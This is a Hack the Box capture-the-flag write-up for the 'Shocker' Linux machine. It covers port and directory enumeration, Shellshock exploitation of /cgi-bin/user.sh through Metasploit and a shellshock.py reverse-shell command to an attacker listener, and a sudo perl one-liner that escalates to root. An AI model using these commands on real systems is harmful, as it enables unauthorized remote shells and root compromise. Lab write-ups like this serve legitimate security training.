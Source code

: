 ```yaml
---
layout: post
status: publish
published: true
permalink: shocker
title: 'Shocker box on Hack the Box Write up'
author: Jean-Michel Frouin
author_login: jmfrouin
author_email: jm@frouin.me
author_url: http://frouin.me
date: '2020-04-10 09:45:49 +0100'
date_gmt: '2013-04-10 08:45:49 +0100'
categories:
- htb
- pentest
- unix
comments: []
---
```

# General infos

- OS: 	Linux
- Difficulty: 	Easy
- Points: 	20
- Release: 	30 Sep 2017
- IP: 	10.10.10.56

![MindMap](Shocker.png "Shocker")

## Enumeration

### Ports

- 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
- 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

### Web

- Dir found: / - 200
- Dir found: /cgi-bin/ - 403
- Dir found: /icons/ - 403
- File found: /cgi-bin/user.sh - 200
- Dir found: /icons/small/ - 403

## Exploitation

### Using MetaSploit

- multi/http/apache_mod_cgi_bash_env_exec
- TARGETURI : /cgi-bin/user.sh

### Manual exploitation 

```
./shellshock.py payload=reverse rhost=10.10.10.56
lhost=10.10.14.36 lport=4444 pages=/cgi-bin/user.sh
```

## User Flag

```
cat /home/shell/user.txt
```

## Priv Esc

```
sudo /usr/bin/perl -e 'system("/bin/bash")'
```

## Root Flag

 
```
cat /root/root.txt
```
<!-- Matomo -->
<script type="text/javascript">
  var _paq = window._paq || [];
  /* tracker methods like "setCustomDimension" should be called before "trackPageView" */
  _paq.push(['trackPageView']);
  _paq.push(['enableLinkTracking']);
  (function() {
    var u="//stats.frouin.me/";
    _paq.push(['setTrackerUrl', u+'matomo.php']);
    _paq.push(['setSiteId', '1']);
    var d=document, g=d.createElement('script'), s=d.getElementsByTagName('script')[0];
    g.type='text/javascript'; g.async=true; g.defer=true; g.src=u+'matomo.js'; s.parentNode.insertBefore(g,s);
  })();
</script>
<!-- End Matomo Code -->
